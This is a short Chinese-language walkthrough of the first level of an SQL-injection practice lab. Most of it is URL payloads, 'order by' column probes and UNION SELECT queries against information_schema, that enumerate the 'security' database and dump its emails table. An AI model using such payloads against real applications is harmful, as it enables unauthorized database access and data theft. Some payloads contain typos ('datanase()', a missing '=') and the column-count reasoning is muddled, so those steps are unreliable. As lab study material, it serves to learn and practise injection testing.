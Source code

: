 # 第一关
# series-1

![image](./images/image1.png)

## 过程

看到提示Please input the ID as parameter with numeric value
意思是请输入一个ID值
先查看这个数据库有多少个字段
    
		?id=-1' order by 5 --+
![image](./images/image4.png)
回现报错
再试试3字段
    ?id-1' order by 3 --+
![image](./images/image5.png)
无回显报错
这时候再试试4字段，确保数据的正确性
![image](./images/image6.png)
回显报错
那么说明这个数据库的字段有3个
接下来查看数据库名
    ?id=-1' union select 1,2,datanase()--+
![image](./images/image7.png)
得到数据库security
接下来爆表名
    ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
		emails,referers,uagents,users
![image](./images/image8.png)
爆出字段名
![image](./images/image9.png)
    ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails'--+
		id,email_id
查看字段的东西
    ?id=-1' union select 1,group_concat(id),group_concat(email_id) from emails --+
![image](./images/image10.png)

过关～:D
